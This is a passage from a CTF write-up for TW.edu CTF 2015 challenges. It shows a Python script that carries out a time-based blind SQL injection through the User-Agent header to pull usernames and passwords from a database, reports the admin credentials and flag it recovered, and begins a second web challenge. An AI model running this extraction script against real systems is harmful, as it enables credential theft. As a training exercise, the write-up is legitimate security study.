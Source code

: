```python
while True:
    char_index = 1
    string = ""
    while True:
        ascii_value = -1
        while True:
            code1 = " (SELECT CASE WHEN ascii(substring((SELECT concat(username, 0x3a, password) FROM users LIMIT {}, 1), {}, 1)) > {} THEN 3 ELSE sleep({}) END) ".format(table_index, char_index, ascii_value, waiting_time)
            code2 = ""
            headers = {
                        'Client-Ip'         :   '\\',
                        'User-Agent'        :   ', ' + code1 + ') ' + code2 +' #\\',
                    }
            t1 = time.time()
            r = requests.post(url, data=payload, headers=headers)
            if time.time() - t1 > waiting_time:
                break
            ascii_value += 1

        if ascii_value == 0:
            break
        string += chr(ascii_value)
        print chr(ascii_value)
        sys.stdout.flush()
        char_index += 1
    print string
    sys.stdout.flush()
    table_index += 1
    table_names.append(string)

print table_names
```

After I waited for about half hour, I got the "admin:whatsthefoxsay_hihihihihi_i_am_fox"

Using the username and password to login to the page, we got the flag.

**sqlab.hackme.cc/sqlab.php**
```html
Congratulations, there is your flag: CTF{el_psy_congroo!}
```

## TW.edu CTF 2015: Rilakkuma

---------------------------------------
**Category:** web **Points:** 300 **Solves:**  **Description:**

> http://rilakkuma.hackme.cc/

**rilakkuma.hackme.cc**
```html
Index of /
[ICO]   Name    Last modified   Size    Description
[ ] flag.php    2016-01-01 09:25    37
[IMG]   lala.png    2016-01-01 13:35    23K
[ ] rilakkuma.php   2016-01-06 14:15    858
[TXT]   rilakkuma.txt   2016-01-06 14:15    858
Apache/2.4.7 (Ubuntu) Server at rilakkuma.hackme.cc Port 80
```
